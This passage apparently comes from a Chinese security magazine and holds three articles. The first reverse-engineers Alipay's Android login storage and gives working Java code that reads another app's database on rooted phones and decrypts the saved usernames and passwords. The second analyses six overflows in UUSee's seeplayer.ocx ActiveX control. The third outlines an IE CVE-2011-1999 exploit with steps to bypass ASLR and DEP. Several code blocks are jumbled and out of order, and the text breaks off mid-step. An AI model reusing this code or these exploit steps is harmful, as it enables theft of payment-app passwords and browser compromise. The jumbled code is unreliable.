    # 调用 com.google.zxing.c.a.b.b(String) 方法解密 ho.b 中加密过的密码
    invoke-static {v0, v1},
Lcom/google/zxing/c/a/b;->b(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;
    move-result-object v0
    if-eqz v0, :cond_1
...
Landroid/widget/EditText;->setText(Ljava/lang/CharSequence;)V # 设置密码
...
Landroid/widget/CheckBox;->setChecked(Z)V # 取消“记住密码”选中状态
...
return-void # 返回
```

```text
:cond_3
    iget-object v1, p0,
Lcom/alipay/android/client/Login;->d:Landroid/widget/RelativeLayout;
    invoke-virtual {v1, v4},
Landroid/widget/RelativeLayout;->setVisibility(I)V # 设置为 View.VISIBLE
...
:cond_5
    const-string v0, "taobao" # 等待查询“taobao”类型的用户登录记录
...
Landroid/widget/Button;->setVisibility(I)V
Landroid/widget/TextView;->setVisibility(I)V
...
Landroid/widget/RelativeLayout;->setVisibility(I)V
...
Lcom/alipay/android/client/Login;->g:Landroid/graphics/Bitmap;
    if-eqz v1, :cond_7
...
Lcom/alipay/android/client/Login;->a(Landroid/graphics/Bitmap;)V
:cond_7
    iget-object v1, p0,
Lcom/alipay/android/client/Login;->e:Landroid/widget/EditText;
    const-string v2, ""
    invoke-virtual {v1, v2},
```

## 漏洞攻防

```smali
Landroid/widget/EditText;->setText(Ljava/lang/CharSequence;)V #清空
:goto_16
:goto_0
:cond_8 #跳到这里说明密码为空，否则直接设置密码框内容为空
:try_start_1
iget-object v2, p0, Lcom/alipay/android/client/Login;->x:Landroid/widget/EditText; #密码框
iget-object v0, v0, Lcom/alipay/android/client/ho;->b:Ljava/lang/String; #密码
invoke-virtual {v2, v0}, Landroid/widget/EditText;->setText(Ljava/lang/CharSequence;)V #设置密码框
:try_end_1
.catch Ljava/lang/Exception; { :try_start_1 .. :try_end_1 } :catch_0
...
.end method
```

在整个 **Login** 类中，有 3 个变量是需要注意的，分别是 `EditText e`、`AutoCompleteTextView v` 和 `EditText x`。分析发现 `AutoCompleteTextView v` 为用户名输入框，`EditText x` 为密码输入框。在 `d()` 方法中，先设置用户名输入框内容为 `ho.a`，如果 `ho.b` 不为空则先解密再设置到密码框。

为了验证分析，这里通过在 `d()` 方法中加入 `Log.v` 代码查看 `ho.a`、`ho.b` 及解密后的值。使用 LogCat 输出更方便，代码量小、寄存器占用少，且结果可随时查看。修改后的代码如图 6 所示。


在插入代码时需要注意不要随意使用寄存器，否则会破坏原程序状态。保存 `Login.smali` 后对 APK 重新编译并签名，再安装并导入保存的 `RecentDB` 文件，启动到登录界面后可在 LogCat 中看到输出信息（如图 7）。


这时可以看到加密密码、密钥及解密后的密码都输出到了 LogCat。接着追踪 `ho` 对象何时获取密码信息、密钥如何生成，并在 `d()` 方法中继续定位相关代码。

```smali
iget-object v1, p0, Lcom/alipay/android/client/Login;->j:Lcom/alipay/android/client/a/l;
invoke-virtual {v1, v0}, Lcom/alipay/android/client/a/l;->a(Ljava/lang/String;)Lcom/alipay/android/client/ho;
move-result-object v0
if-nez v0, :cond_0
new-instance v0, Lcom/alipay/android/client/ho;
```

`ho` 对象通过 `this.j.a()` 方法生成，`j` 是 `l` 对象。对应代码位于 `com\alipay\android\client\a\l.smali` 文件中的 `l.a(String)` 方法。

```smali
.method public final a(Ljava/lang/String;)Lcom/alipay/android/client/ho;
.locals 12
const/4 v10, 0x3
const/4 v7, 0x2
const/4 v8, 0x1
const/4 v9, 0x0
...
const-string v1, "RecentTable2" #需要查询的表
new-array v2, v2, [Ljava/lang/String;
const-string v4, "ID"
const-string v4, "NAME"
...
.end method
```

```java
const-string v4, "PASSWORD" #加密过的密码
aput-object v4, v2, v7
const-string v4, "TYPE" #用户类型
aput-object v4, v2, v10
const/4 v4, 0x4
const-string v5, "LOGINTIME" #最后登录的时间
aput-object v5, v2, v4
const/4 v4, 0x5
const-string v5, "USERID"
aput-object v5, v2, v4
const-string v7, "LOGINTIME desc" #构造 SQL 语句
move-object v4, v3
move-object v5, v3
move-object v6, v3
invoke-virtual/range {v0 .. v7}, Landroid/database/sqlite/SQLiteDatabase;->query(...)
move-result-object v0 #执行查询并返回结果
invoke-interface {v0}, Landroid/database/Cursor;->moveToFirst()Z #转到第一条记录
move-result v1
if-eqz v1, :cond_2 #如果记录为空跳转，走关闭数据库并返回
new-instance v1, Lcom/alipay/android/client/ho;
invoke-direct {v1}, Lcom/alipay/android/client/ho;-><init>()V
const-string v2, "NAME"
invoke-interface {v0, v2}, Landroid/database/Cursor;->getColumnIndex(Ljava/lang/String;)I
move-result v2
invoke-interface {v0, v2}, Landroid/database/Cursor;->getString(I)Ljava/lang/String; #查询结果的用户名
move-result-object v2
iput-object v2, v1, Lcom/alipay/android/client/ho;->a:Ljava/lang/String; #用户名赋值给 ho.a
const-string v2, "PASSWORD"
invoke-interface {v0, v2}, Landroid/database/Cursor;->getColumnIndex(Ljava/lang/String;)I
move-result v2
invoke-interface {v0, v2}, Landroid/database/Cursor;->getString(I)Ljava/lang/String; #查询结果的密码
move-result-object v2
iput-object v2, v1, Lcom/alipay/android/client/ho;->b:Ljava/lang/String; #密码赋值给 ho.b
if-nez p1, :cond_1
const-string v2, "TYPE"
invoke-interface {v0, v2}, Landroid/database/Cursor;->getColumnIndex(Ljava/lang/String;)I
move-result v2
invoke-interface {v0, v2}, Landroid/database/Cursor;->getString(I)Ljava/lang/String; #查询结果的用户类型
move-result-object v2
iput-object v2, v1, Lcom/alipay/android/client/ho;->c:Ljava/lang/String; #用户类型赋值给 ho.c
```

```java
:goto_1
const-string v2, "USERID"
invoke-interface {v0, v2}, Landroid/database/Cursor;->getColumnIndex(Ljava/lang/String;)I
move-result v2
invoke-interface {v0, v2}, Landroid/database/Cursor;->getString(I)Ljava/lang/String;
move-result-object v2
iput-object v2, v1, Lcom/alipay/android/client/ho;->e:Ljava/lang/String; #用户ID赋值给 ho.e
:goto_2
invoke-interface {v0}, Landroid/database/Cursor;->close()V #关闭 Cursor
return-object v1 #返回 ho 对象

:cond_0 #查到特定“TYPE”的用户登录记录
iget-object v4, p0, Lcom/alipay/android/client/a/l;->a:Landroid/database/sqlite/SQLiteDatabase;
const-string v5, "RecentTable2" #要查询的数据表
const/4 v0, 0x5
new-array v6, v0, [Ljava/lang/String;
const-string v0, "ID"
aput-object v0, v6, v9
const-string v0, "NAME"
aput-object v0, v6, v8
const-string v0, "PASSWORD"
aput-object v0, v6, v7
const-string v0, "LOGINTIME"
aput-object v0, v6, v10
const/4 v0, 0x4
const-string v1, "USERID"
aput-object v1, v6, v0
const-string v7, "TYPE=?"
new-array v8, v8, [Ljava/lang/String;
aput-object p1, v8, v9
const-string v11, "LOGINTIME desc"

# 上面在构造 SQL 语句，等价于：
# select ID, NAME, PASSWORD, LOGINTIME, USERID
# from RecentTable2
# where TYPE='alipay' order by LOGINTIME desc;

move-object v9, v3
move-object v10, v3
invoke-virtual/range {v4 .. v11}, Landroid/database/sqlite/SQLiteDatabase;->query(...)
move-result-object v0 #执行 SQL 查询语句
goto :goto_0 #跳转去赋值

:cond_1
iput-object p1, v1, Lcom/alipay/android/client/ho;->c:Ljava/lang/String; #保存用户类型到 ho.c
goto :goto_1

:cond_2
move-object v1, v3
goto :goto_2
.end method
```

这段代码我注释得很清楚，而且功能也很简单，就是 SQL 查询语句，然后对 ho 对象的相应字段赋值。用户名与加密密码的获取弄清楚后，来看看密钥是如何生成的。从上面密码解密部分的分析得知，它是通过“com.alipay.android.client.d.b”对象的 I 成员传递进来的，而它是在哪里被赋的值呢？经过分析，发现是在 Login 类的 `b(com.alipay.platform.core.b)` 方法中调用了 `com.alipay.android.client.a.m.b(Context)` 方法，而后者又调用了 `com.alipay.android.client.a.o` 类的 `a(Context)` 方法，`a(Context)` 方法代码如下。

```java
.method public static a(Landroid/content/Context;)Ljava/lang/String;
    .locals 3
    invoke-static {p0}, Lcom/alipay/android/client/a/j;->a(Landroid/content/Context;)Lcom/alipay/android/client/a/j;
    move-result-object v0
    invoke-virtual {v0}, Lcom/alipay/android/client/a/j;->e()Ljava/lang/String;
    move-result-object v0
    const/4 v1, 0x0
    const/16 v2, 0x8
    invoke-virtual {v0, v1, v2}, Ljava/lang/String;->substring(II)Ljava/lang/String;
    move-result-object v0
    return-object v0
.end method
```

转换成 Java 代码只执行如下一行。

```java
return com.alipay.android.client.a.j.a(Context).e().substring(0, 8);
```

调用 `e()` 方法返回字符串的前 8 位，`e()` 方法代码如下。

```java
.method public final e()Ljava/lang/String;
    .locals 2
    iget-object v0, p0, Lcom/alipay/android/client/a/j;->b:Ljava/lang/String;
    if-nez v0, :cond_0
    iget-object v0, p0, Lcom/alipay/android/client/a/j;->a:Ljava/lang/String;
    if-nez v0, :cond_0
    const-string v0, "0000000000000000"
    invoke-direct {p0, v0}, Lcom/alipay/android/client/a/j;->b(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v0
    :goto_0
    return-object v0
    :cond_0
    ...
```

```java
iget-object v0, p0, Lcom/alipay/android/client/a/j;->b:Ljava/lang/String;
if-nez v0, :cond_1
new-instance v0, Ljava/lang/StringBuilder;
invoke-direct {v0}, Ljava/lang/StringBuilder;-><init>()V
iget-object v1, p0, Lcom/alipay/android/client/a/j;->a:Ljava/lang/String;
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
const-string v1, "|"
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
const-string v1, "0000000000000000"
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
move-result-object v0
goto :goto_0

:cond_1
iget-object v0, p0, Lcom/alipay/android/client/a/j;->a:Ljava/lang/String;
if-nez v0, :cond_2
iget-object v0, p0, Lcom/alipay/android/client/a/j;->b:Ljava/lang/String;
invoke-direct {p0, v0}, Lcom/alipay/android/client/a/j;->b(Ljava/lang/String;)Ljava/lang/String;
move-result-object v0
goto :goto_0

:cond_2
new-instance v0, Ljava/lang/StringBuilder;
invoke-direct {v0}, Ljava/lang/StringBuilder;-><init>()V
iget-object v1, p0, Lcom/alipay/android/client/a/j;->a:Ljava/lang/String;
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
const-string v1, "|"
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
iget-object v1, p0, Lcom/alipay/android/client/a/j;->b:Ljava/lang/String;
invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;
invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
move-result-object v0
goto :goto_0
```

```smali
cond_3
const-string v0, "0000000000000000"
invoke-direct {p0, v0}, Lcom/alipay/android/client/al->b(Ljava/lang/String;)Ljava/lang/String;
move-result-object v0
goto :goto_1
.end method
```

```java
...
}
```

这段代码通过判断 j.a 与 j.b 两个字符串并根据情况返回相应的字符串，而 j.a 与 j.b 是在 j 对象的构造函数中赋值的，j.b 由 getDeviceId() 来设置，j.a 由 getSubscriberId() 来设置，具体的代码由于篇幅所限就不贴了。由于我手机获取的这两个值都不为空，所以这里返回的字符串为我的 SubscriberId，经过 substring(0,8) 后最后得到的密钥为我手机 SubscriberId 的前 8 位。到这里，加密密码读取与密钥计算都明白了，还剩下加密与解密方法没有分析。

密码的加密与解密分别调用了 `com.google.zxing.c.a.b.a(String, String)` 与 `com.google.zxing.c.a.b.b(String, String)` 方法，两个参数中第一个为需要加密或解密的字符串，第二个为密钥，最终两个方法都调用了 `com.google.zxing.c.a.b.a(int, String, String)` 方法，转换成 Java 代码如下。

代码最终进行了 DES 加密与解密操作，只是其中多了一道 `a.a(byte[])` 与 `a.a(String)` 的加密与解密工序。有过二维码扫描程序编写经验的朋友一定会发现 `com.google.zxing` 包是一个开源的一维、二维码扫描项目，到 Google Code 上下载该项目的源码，可以发现，上面的代码是经过支付宝修改过的 `ReedSolomonEncoder.java` 文件，源码位于 `zxing-2.0\core\src\com\google\zxing\common\reedsolomon` 目录，但没有这个 `a.a(byte[])` 与 `a.a(String)` 方法，显示是支付宝手动添加的。而修改过的 b 类（未混淆则为 ReedSolomonEncoder 类）的 a 方法是调用了 `com.alipay.android.c.a.a` 方法进行字符编码运算，代码位于 `com.alipay.android.c` 目录中。这个 c 类提供了 4 个方法，其中两个为字符处理的判断方法，另外两个分别是加密与解密的代码。限于本人算法能力有限，无法对算法代码进行分析讲解。大家可以参考相关文件来了解它的具体实现，到这里支付宝登录密码的加密与解密也算搞清楚了。

## 代码编写

仔细观察 `com.alipay.android.c.a` 类，会发现它是一个功能独立的算法类，与支付宝程序的其他逻辑部分无任何耦合。因此，代码编写时我使用了一个取巧的方法，将 `a.smali` 文件转换成 dex 文件，然后使用 dex2jar 转换成 jar 文件拿到安卓项目中调用，程序的代码如下。

```java
private static String a(int paramInt, String paramString1, String paramString2) {
    try {
        byte[] arrayOfByte = paramString2.getBytes();
        SecretKeySpec localSecretKeySpec = new SecretKeySpec(arrayOfByte, "DES");
        Cipher localCipher = Cipher.getInstance("DES");
        localCipher.init(paramInt, localSecretKeySpec);
        byte[] localObject;
        if (paramInt == 2) {
            localObject = a.a(paramString1);
            localObject = localCipher.doFinal(localObject);
            return new String(localObject);
        } else {
            localObject = paramString1.getBytes("UTF-8");
            localObject = localCipher.doFinal(localObject);
            return a.a(localObject);
        }
    } catch (Exception localException) {
        localException.printStackTrace();
        return null;
    }
}
```

```java
public void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.main);
    setTitle("支付宝本地密码查看测试程序");
    tv = (TextView) findViewById(R.id.text_passwords);
    if (!RootUtils.hasRootPermission()) {
        Toast.makeText(AlipaypwdActivity.this, "程序只能在 ROOT 过的手机上运行", Toast.LENGTH_LONG).show();
        AlipaypwdActivity.this.finish();
    }
    if (!RootUtils.hasInstalledApn(AlipaypwdActivity.this, "com.eg.android.AlipayGphone")) {
        Toast.makeText(AlipaypwdActivity.this, "检测到手机未安装支付宝软件", Toast.LENGTH_LONG).show();
        return;
    }
    RootUtils.RootCommand("chmod 666 ...");
}
```

## X洞攻防

```java
/data/data/com.eg.android.AlipayGphone/databases/RecentDB";
);
try {
    Context context = createPackageContext("com.eg.android.AlipayGphone",
        Context.CONTEXT_IGNORE_SECURITY);
    SQLiteDatabase db = context.openOrCreateDatabase("RecentDB", 0, null);
    Cursor cursor = db.rawQuery("select NAME, PASSWORD, TYPE from RecentTable2", null);
    TelephonyManager tm = (TelephonyManager)getSystemService("phone");
    String str = tm.getSubscriberId(); // 支付宝用这个ID的前8位做加密密钥
    Log.v(TAG, str);
    String subStr = str.substring(0, 8); // 只取前8位

    byte[] keys = subStr.getBytes();
    StringBuffer sb = new StringBuffer();
    sb.append("\n 以下为本地保存的支付宝密码解密：\n");

    while (cursor.moveToNext()) {
        sb.append("账号类型：" + cursor.getString(2) + "\n");
        sb.append("用户名：" + cursor.getString(0) + "\n");
        sb.append("加密密码：" + cursor.getString(1) + "\n");
        sb.append("解密密码：" + decryptPassword(cursor.getString(1), keys) + "\n");
        sb.append("---------------------------------------------\n");
    }

    sb.append("\n\n 以下为测试支付宝密码加密：\n");
    sb.append("原密码：" + "12345678" + "\n");
    sb.append("加密密码：" + encryptPassword("12345678", keys) + "\n");
    sb.append("---------------------------------------------\n");
    sb.append("原密码：" + "87654321" + "\n");
    sb.append("加密密码：" + encryptPassword("87654321", keys) + "\n");
    sb.append("---------------------------------------------\n");

    tv.setText(sb.toString());
    db.close();
} catch (NameNotFoundException e1) {
    e1.printStackTrace();
}
```

```java
com.alipay.android.c.a.a(encryptedPass); // 调用支付宝的解密接口对密码进行解密
bytes = localCipher.doFinal(bytes); // DES解密
String password = new String(bytes);
Log.v(TAG, password);
return password;
} catch (Exception e) {
    e.printStackTrace();
    return null;
}

private String encryptPassword(String pass, byte[] keys) {
    try {
        SecretKeySpec localSecretKeySpec = new SecretKeySpec(keys, "DES");
        Cipher localCipher = Cipher.getInstance("DES");
        localCipher.init(Cipher.ENCRYPT_MODE, localSecretKeySpec);
        byte[] passBytes = pass.getBytes("UTF-8");
        byte[] bytes = localCipher.doFinal(passBytes); // DES加密
        String password = com.alipay.android.c.a.a(bytes); // 调用支付宝的加密接口对密码进行加密
        Log.v(TAG, password);
        return password;
    } catch (Exception e) {
        e.printStackTrace();
        return null;
    }
}
```

最后，程序运行后效果如图 8 所示。


图 8

被混淆过的 APK，在分析时无疑是十分困难的，尤其是对安卓编程不太熟悉的朋友。因此，这次没有从程序运行流程开始分析，而是采用“症状”式的猜测进行 Log 分析，这一方面可以节省分析成本，另一方面也可以真实看到程序运行到某处的结果，为我们的下一步分析提供有效的数据支持。

加密与解密部分代码如下。

```java
private String decryptPassword(String encryptedPass, byte[] keys) {
    try {
        SecretKeySpec localSecretKeySpec = new SecretKeySpec(keys, "DES");
        Cipher localCipher = Cipher.getInstance("DES");
        localCipher.init(Cipher.DECRYPT_MODE, localSecretKeySpec);
        byte[] bytes = ...
    }
}
```

通过阅读本文及前几篇安卓程序的分析文章，大家可以发现，对于“ROOT”过的手机，是没有安全可言的。最后，提醒大家要妥善地使用自己的手机，不要随意安装非正规的软件，不到万不得已不要“ROOT”掉手机。

## UUSee2012 漏洞六连发


前段时间做毕业设计，研究的是 ActiveX 控件的漏洞挖掘。虽然这个课题现在的热度已经不如前两年，但是个人认为未来安全研究的方向会是自动化，谁拥有高度自动化的工具，谁就能发现更多的漏洞。当然，也要看工具的水平，一个好的工具应当是集众家之所长。

废话少说，进入正题。今天带来的是 UUSee 网络电视 2012 的几个漏洞分析。这几个漏洞都在 seeplayer.ocx 这个控件中，其中有 5 个栈溢出漏洞，1 个堆溢出漏洞。下面是每个漏洞的详细分析。

- 1. StartLiveChannel

```text
StartLiveChannel(channelId As VT_BSTR, info As VT_BSTR,
param As VT_BSTR, type As VT_BSTR)
```

其中第一个参数 channelId 没有判断输入的字符串长度，从而导致了一个栈溢出。

```text
channelId 设为 "new Array(0x10000)"，
调用：target.StartLiveChannel(new Array(0x10000), 'AAAA', 'AAAA', 'AAAA');
WinDbg 捕获到如下异常。
```


栈中被大量的 `0x2C2C2C2C` 所覆盖，这其实就是 `new Array(0x10000)` 生成的数据。根据异常发生的位置 `0x00140000` 可以确定这是一个栈溢出。测试发现，产生溢出的临界字符串长度大约为 10220。


根据调用堆栈，发现产生漏洞的函数位于偏移 `0xAC7D0` 处。程序在 `0x100AC7E6` 处调用 `_alloca_probe` 函数（这是一种分配大量栈空间的方法），在栈中分配了 `0x2818`（10264）字节的空间。

测试得到的临界字符串长度较为接近，如图 3 所示。


图 3 导致漏洞函数的部分反汇编代码

打开 OllyDbg，在偏移 `0xAC7D0` 处设置断点，断下时的堆栈情况如图 4 所示。


图 4 调用函数 sub_100AC7D0 时的堆栈数据

可见，传入的参数的确是我们传入的字符串。溢出是发生在 `0x100AC89C` 地址处调用的函数 `unknown_libname_23` 中，该函数的偏移地址为 `0x60880`。经过分析，该函数的作用是复制数据，有 3 个参数：第一个是复制的目的地址，第二个是复制的源地址，第三个是复制的字节数。

图 5 是调用该函数的代码，此处代码有点特殊，最后一个参数是在 `0x100AC889` 处的 `push eax` 中压入堆栈，然后调用了另外一个函数后才压入剩下的两个参数，并调用函数 `unknown_libname_23`。


图 5 调用数据复制函数的代码片段

图 6 是在偏移地址 `0xAC89C` 处断下时的堆栈数据，程序将传入的字符串写入之前分配的栈空间（`0x0013B930`）时发生了栈溢出。


图 6 调用 unknown_libname_23 时的堆栈数据

最后说一下函数 `unknown_libname_23`，IDA Pro 经常会将函数识别为 `unknown_libname_xx` 这样的格式。猜测可能是在某个识别出的函数中调用了一个未识别出的函数，然后 IDA Pro 认为库函数调用的必然也是库函数，故而以此命名。

例如，在 seeplayer.ocx 中，IDA Pro 识别出了 memcpy_s 函数，而该函数调用了 `unknown_libname_23`。虽然 IDA Pro 没有识别出该函数，但是根据代码能够判断出该函数的功能类似于 memcpy。不过笔者没有找到 memcpy_s 的源码，还不能够确认，如图 7 所示。


图 7 memcpy_s 函数中的部分代码

- 2. SetLogInfo2

这个方法的原型为：`SetLogInfo2(logInfo As VT_BSTR, port As VT_I4)`。其中参数 logInfo 由于没有判断长度导致了一个堆溢出。

堆溢出的检测使用的是页堆的方法，如果大家不是很清楚可以翻看《软件调试》一书中的相应章节。溢出时的调用堆栈如图 8 所示。


图 8 溢出时的调用堆栈

UUSee 在模块加载时创建了一个线程，并在堆中固定分配了 `0x1000` 字节的堆空间，调用 SetLogInfo2 后没有判断传入的字符串参数长度，往堆中复制大于 `0x1000` 长度的数据时就会发生堆溢出，如图 9 所示。


图 9 传入的堆分配大小

程序调用函数 `sub_10090C50` 时使用的参数是 `0x1000`，如图 10 所示。


图 10 发生溢出的堆分配过程

从图10可以看出，该线程运行后创建了一个 UDP 类型的套接字，然后 new 出了一个堆缓冲区，而大小正是由参数 arg_0 传入的，也就是 0x1000。这里笔者创建的是一个固定大小的堆空间，这是很危险的，堆空间本来就是为了在大小未知的情况下便于动态分配内存的。笔者这样做会轻易导致堆溢出。

根据图8可以发现，存在漏洞的函数在偏移地址 0x90D50 处。该函数使用了非安全函数 sprintf，导致堆溢出，如图11所示。

```
（反汇编截图）导致溢出的代码（sprintf 调用相关）
```

图11 导致溢出的代码

使用 OllyDbg 在偏移地址 0x90DEF 处设置断点，断下时的堆栈如图12所示。

```
（内存/堆栈截图）调用函数 sprintf 前的堆栈数据
```

图12 调用函数 sprintf 前的堆栈数据

0x4E46AB0 是一个堆地址，如图13所示，该堆空间到 0x4E47AB0 结束，大小正好为 0x1000。在调用函数 sprintf 时，由于参数长度过长，引发了堆溢出。

```
（内存截图）要复制的堆空间数据
```

图13 要复制的堆空间数据

### 3. SetList

这个方法的原型为：SetList(listurl As VT_BSTR)。参数 listurl 没有判断长度，导致了一个栈溢出。测试发现，临界溢出字符串长度大约为 6021。

发生溢出时的调用堆栈如图14所示。

```
（调用堆栈截图）
```

图14 溢出时的调用堆栈

0x04464272 处的代码如图15所示。

```
（反汇编截图）函数 unknown_libname_386 的代码
```

图15 函数 unknown_libname_386 的代码

通过动态跟踪，确定 0x10054270 处调用的函数地址偏移为 0x855F0。该函数首先使用“__alloca_probe”分配了 0x17BC(6076) 大小的栈空间，这与临界溢出长度 6021 较为接近，如图16所示。

```
（反汇编截图）发生溢出的栈空间分配过程
```

图16 发生溢出的栈空间分配过程

栈溢出是在地址 0x1008569B 处调用 strcpy 时发生的，如图17所示。通过 OllyDbg 进行动态调试，调用“__alloca_probe”后的 ESP 寄存器值为 0x0013A54。在偏移地址 0x8569B 处设置断点，断下时的堆栈数据如图18所示，复制的目标地址 0x0013CA90 位于之前分配的栈空间中，而复制的源字符串是传入的超长字符串，调用 strcpy 后发生了栈溢出。

```
（反汇编截图）导致溢出的函数调用
```

图17 导致溢出的函数调用

```
（堆栈截图）调用函数 strcpy 前的堆栈数据
```

图18 调用函数 strcpy 前的堆栈数据

### 4. SetDownload

这个方法的原型为：SetDownload(source type As VT_I4, source As VT_BSTR, flvurl As VT_BSTR, info As VT_BSTR, param As VT_BSTR, localpath As VT_BSTR, handle As VT_T4)。其中参数 source 没有判断字符串长度，从而导致了一个栈溢出。测试发现，临界溢出字符串长度大约为 10220。

溢出发生时的调用堆栈如图19所示。


由图19可知，漏洞发生在偏移地址为 0x964A0 的函数中。

图20与图21的代码与 StartLiveChannel 产生漏洞的函数代码极其相似，不仅都是调用 “unknown_libname_23” 后发生溢出，而且汇编代码基本相同，怀疑是笔者直接复制源代码并做了些修改，才会这样。

```
图20 漏洞函数中的栈空间分配（反汇编代码片段）
```

```
图21 调用导致溢出函数的代码（反汇编代码片段）
```

### 5. StartVODChannel

这个方法的原型为：`StartVODChannel(channelId As VT_BSTR, info As VT_BSTR, param As VT_BSTR, type As VT_BSTR)`。其中参数 channelId 没有判断字符串长度，从而导致了一个栈溢出。测试发现，临界溢出字符串长度大约为 10220。

溢出发生时的调用堆栈如图22所示。


该方法与 StartLiveChannel 相同，漏洞也是由相对偏移 0xAC7D0 处的函数产生，故此处省去分析。

### 6. SendCommendStr

这个方法的原型为：`SendCommendStr(commedstr As VT_BSTR)`。参数 commedstr 没有判断字符串长度，导致了一个栈溢出。测试发现，临界溢出字符串长度大约为 2037。

溢出时的调用堆栈如图23所示。


由图23可知，发生漏洞的函数是 `sub_1007EC00`。

函数一开始分配了 `0x818(2072)` 字节的栈空间，这与临界溢出字符串长度 2037 较为接近，如图24所示。

```
图24 漏洞函数中栈空间的分配（反汇编代码片段）
```

如图25所示，程序在偏移地址 `0x7ECD7` 处调用了函数 “unknown_libname_23”，发生了溢出。

```
图25 调用导致溢出函数的代码（反汇编代码片段）
```

打开 OllyDbg，在偏移地址 `0x7ECD7` 处设置断点，断下时的堆栈如图26所示。


在往栈空间中写入 `0xFFFF` 字节数据时，到达栈空间边界，发生访问违规。

UUSee 网络电视作为一款用户量很大的软件，安全意识却不能跟上，以上这些漏洞都是使用了非安全函数导致的。虽然笔者有意开辟了很大的栈空间，却不能有效地避免漏洞的产生。因此，在编程过程中，一定要注意安全函数的使用。

至于漏洞的利用，这里就不说了，大家可以使用 HeapSpray 方法。

这是笔者第一次分析漏洞，如果有错误或不足的地方欢迎大家批评指正。

## IE 浏览器数组越界漏洞利用方法


图/文 吴锦锋

### 漏洞概述

该漏洞是以 CVE-2011-1999 漏洞为原型来进行讨论的。select 元素结构中存在一个 option cache 结构，该结构是 option 元素的指针数组，该数组存在数组越界漏洞。在将 option 元素添加到 select 元素的过程中，如果添加的索引是负值，那么会覆盖数组前方的数据。浏览器的数组越界漏洞属于高风险漏洞，可以同时绕过 ASLR 和 DEP，能够稳定执行。类似的漏洞还有：CVE-2011-1999、CVE-2010-1883、CVE-2008-3475。之所以说能够绕过 ASLR 和 DEP，是因为它能准确地获得 mshtml.dll 的基地址，但是有时利用 mshtml.dll 不能构造出合适的 rop 链。我的思路是通过一些变换来获得 ntdll.dll 中的 rop 链。

### 漏洞利用简述

首先，数组越界漏洞本身具有向任意地址写固定数据的能力。利用该数组越界漏洞，更改 selarray 元素中 option cache 前方的某个字符串的长度位，将长度位改为较大数值，这样该字符串就可以读取该字符串后面的所有数据。通过获得该功能，先将该字符串所在虚拟空间的准确位置测算出。通过获得的准确位置和内存任意地址读取功能，获得读取内存中任意地址数据的功能。通过获得读取内存中任意地址数据的功能，读取 option 对象的虚函数表的基地址，进而获得 mshtml.dll 模块的基地址，为 rop chain 做铺垫。（可选）具备了读/写功能后，伪造对象来触发漏洞。

具体为：使用 optarray 中的 option 指针来替换 option cache 中的 option 元素中的 CTreeNode 指针，然后立即删除该 option 指针元素，导致原 CTreeNode 指针的位置指向的内存是待释放内存，触发内存回收，然后使用恶意数据填充到该内存处，该位置处是一个伪造的 CTreeNode 结构对象，这样就执行 corruptedoption.parentNode.click()，即执行了 CTreeNode 结构对象指向的父对象的虚函数。笔者的方法是通过对 string 字符串的调整，读取飞地区中的 ntdll.dll 函数地址，进而获得 ntdll.dll 模块的基地址，为 rop chain 做铺垫。

### 关键知识点

- 覆盖字符串长度位。
- 利用该漏洞同时具备读/写功能。
- 内存构造对象数据结构。
- 利用飞地区域。

js 中存在字符串，字符串在内存中的表示是前 4 字节是长度位，后面是字符串内容。字符串内容的读取受到字符串长度位的限制，如果长度位足够大，那么字符串可以读取其后用户空间的所有内容。这里和普通的漏洞触发不同，这里是手工构造出触发漏洞的条件。有一种 use-after-free 现在已经不可能存在了，那就是：当同时有两个地方引用到某个对象时，如果删除某个引用和对象，并在该对象位置放入其他恶意数据，那么另一个引用将能引用到该恶意数据。使用 optarray 中的 option 指针来替换 option cache 中的 option 元素中的 CTreeNode 指针，然后立即删除该 option 元素，

## 漏洞攻防

导致原 CTreeNode 指针的位置指向的内存是释放内存，然后使用恶意数据填充到该内存处。用户空间的最后一块内存中存在“飞地区域”。飞地区域指的是 SharedUserData 内存区。

### 早期系统调用

Ntdll 中的存根函数调用 SharedUserData 内存区的 SystemCallStub 代码。ntdll.dll 中的存根函数内的代码为 call edx，其中 edx 存储着 SystemCallStub 的地址，执行 call edx 将使程序转移到“飞地区域”执行程序代码。

### 后来系统调用

后来 SharedUserData 内存区没有了可执行权限，也不存放执行代码，而是仅仅用来存放地址，存放的是一个指向 ntdll.dll 中的 ntdll.KiFastSystemCall 的地址。并且 ntdll.dll 中的存根函数内的代码不是 call edx，而是 call [edx]，SharedUserData 内存区内不是 SystemCallStub 的地址，而是放入了一个指向 ntdll.dll 中的 ntdll.KiFastSystemCall 的地址。ntdll.KiFastSystemCall 在 ntdll.dll 中的位置固定，因此通过该地址可以得到 ntdll.dll 模块的首地址。

### 伪造对象（创造触发条件）

步骤1  
将 selarray[99] 中的 option cache 指针数组中的第 61 个 option 的指针赋值给 corruptedoption，并将 option cache 指针数组中的元素删除。

- 相关函数：
- `corruptedoptionaddr = readmem(optarrayaddr+60*4)`
- `corruptedoption = selarray[99].options[60]`
- `selarray[99].options.remove(60)`
- `corruptaddr = corruptedoptionaddr + 0x14`

步骤2  
另一个 options 对象畸形添加给 selarray[99] 中的 option cache 指针数组中，覆盖了之前 option 对象中的 CTreeNode 指针。

- 相关函数：
- `overwrite(corruptaddr)`

步骤3  
由于之前是畸形添加，导致 selarray[99] 遗忘了添加的 option 元素，空间最终被回收。

- 相关函数：
- `selarray[99].options.remove(0)`

步骤4

- 相关函数：
- `elms[i].className = fakeobj`

步骤5  
